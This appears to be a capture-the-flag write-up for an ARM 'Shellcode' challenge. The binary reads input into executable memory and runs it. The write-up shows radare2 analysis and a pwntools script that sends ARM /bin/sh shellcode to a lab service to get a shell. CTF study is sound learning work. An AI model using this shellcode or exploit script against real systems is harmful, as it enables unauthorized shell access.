

# Shellcode - 964

> You will need access into Home Invasion network to complete this challenge. There is only one flag in this challenge.
>  
> It's exactly what it says.
>  
> nc 192.168.51.12 10003

First, as we do with any binary, we analysed the file. According to `r2` (Radare2), the binary is ARM architecture, has no PIC (Position independent Code) and has no canary. It seemed almost perfect for a classic stack smashing exploit.

```
[0x000103f0]> iI
arch     arm
binsz    7149
bintype  elf
bits     32
canary   false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux-armhf.so.3
lang     c
linenum  true
lsyms    true
machine  ARM
maxopsz  4
minopsz  4
nx       true
os       linux
pcalign  4
pic      false
relocs   true
relro    partial
rpath    NONE
static   false
stripped false
subsys   linux
va       true
```

So, using `binary ninja`, we decided to dive into the `<main>` function. The binary is not stripped, so it is easy to find where the function is. 



We ignored `bl setup`. It does nothing relevant to our exploit. The program first maps 0x1000 bytes of memory using `mmap` to be readable, writable and executable. Then it `reads` 1024 (ie 0x400) characters into the mapped memory, which is the returned value from `mmap`. Lastly, `blx r3` executes any instructions in the mapped memory.

Essentially, the source and the sink were right beside each other. This challenge was a no-brainer. The input just had to be shellcode to get a shell. At the time of solving this challenge, we were not good with ARM shellcodes. So, we used the shellcode from [this Exploit Database website](https://www.exploit-db.com/exploits/43520/).

```
from pwn import *

r = remote('192.168.51.12',10003)


exploit = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x0e\x30\x01\x90\x49\x1a\x92\x1a\x08\x27\xc2\x51\x03\x37\x01\xdf\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
# Exploit taken from: https://www.exploit-db.com/exploits/43520/

r.sendline(exploit)

r.interactive()
```

After running the script, we got a shell, and could print out the flag. Unfortunately, however, we forgot to keep a record of the flag, so we cannot show you what the flag was. Sorry~ 
